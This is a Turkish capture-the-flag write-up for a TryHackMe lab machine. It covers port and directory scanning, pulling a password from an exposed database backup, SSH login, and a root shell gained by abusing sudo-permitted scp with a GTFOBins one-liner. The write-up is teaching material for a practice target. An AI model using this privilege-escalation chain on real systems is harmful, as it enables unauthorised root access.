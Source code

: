 # TRYHACKME BTTSubuCTF WRITEUP

## Makineye Erişim 
Makineye https://tryhackme.com/room/bttsubuctf (suan offline yükleme durumunda ilerde aktif olacak) adresinden erisebilirsiniz.  

## Çözüm Adımları 
Öncelikle makineye erişmek için openvpn ile TryHackMe'nin ağına bağlanıyoruz: 

```bash
openvpn vpn_dosyamız.ovpn
```
sonra rustscan aracı ile port taraması başlatıyoruz: 

```bash
rustscan -a 192.168.1.72 -- -sC -sV 
```
-a ip belirtir 

-- rustscanden nmap e geçer 

-sC nmap e script taraması yapmasını söyler 

-sV nmap e versiyon taraması yapmasını söyler 

![Resim2](pics/ctf_2.png)

Tarama sonucunda 22 portunda ssh ve 80 portunda apache2 web server çalıştığını görüyoruz. Websitesine gidince bir firmaya ait basit bir website ile karşılaşıyoruz.


![Resim2](pics/ctf_1.png)

Websitesine dizin taraması yapmak için dirsearch aracını kullanıyoruz: 

```bash
dirsearch -u http://192.168.1.72
```
-u hedefi belirtir 

![Resim4](pics/ctf_3.png)

Yaptığımız arama sonucunda db_backup.sql adında içinde önemli bilgiler olabilecek bir dosya görüyoruz. Dosyayı görüntülemek için curl aracını kullanıyoruz: 

```bash
curl -ks http://192.168.1.72/db_backup.sql -v 
```
-ks ssl ve tls doğrulamasını atlatır 

-v website ile aramızdaki trafiği daha detaylı gösterir

![Resim4](pics/ctf_4.png)

Ve sysadmin kullanıcısının şifresini öğreniyoruz. Bu kullanıcı ile ssh girişi yapabilir miyiz kontrol ediyoruz: 

```bash
ssh sysadmin@192.168.1.72
```
![Resim5](pics/ctf_5.png)

Ve içerdeyiz . İçerde gizli bir ipucu dosyası buluyoruz: 

![Resim5](pics/ctf_6.png)

Sudo yetkilermizi aşağıdaki komutla kontrol ediyoruz: 

```bash
sudo -l
```

-l kullanıcı yetkilerini listeler 


![Resim5](pics/ctf_7.png)

Sadece scp komutunu root yetkisiyle çalıştırabildiğimizi görüyoruz. Bu önlemi aşmak için https://gtfobins.github.io/gtfobins/scp/ sayfasına gidiyoruz

![Resim5](pics/ctf_8.png)

Sayfada root olmak için aşağdaki komutu kullanmamız gerektiğini öğreniyoruz: 

```bash 
TF=$(mktemp) && echo 'sh 0<&2 1>&2' > $TF && chmod +x "$TF" && sudo scp -S $TF x y:
```
TF=$(mktemp) : /tmp dizininde geçici bir dosya oluşturur ve dosya yolunu TF değişkenine atar . 

echo 'sh 0<&2 1>&2' > $TF oluşturduğumuz geçici dosyaya shell açma komutunu(sh 0<&2 1>&2) yazar . 

chmod +x "$TF" dosyamıza çalıştırma izni verir 

sudo scp -S $TF x y:  scp komutunu root yetkileriyle bizim geçici dosyamızı çalıştıracak şekilde başlatır 

![Resim5](pics/ctf_9.png)

Ve rootuz!. shellimizi tam interaktif hale getirmek için aşağıdaki python kodunu kullanıyoruz: 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Bu sayede pythondaki pty kutuphanesi ile bash shell i almış oluyoruz .


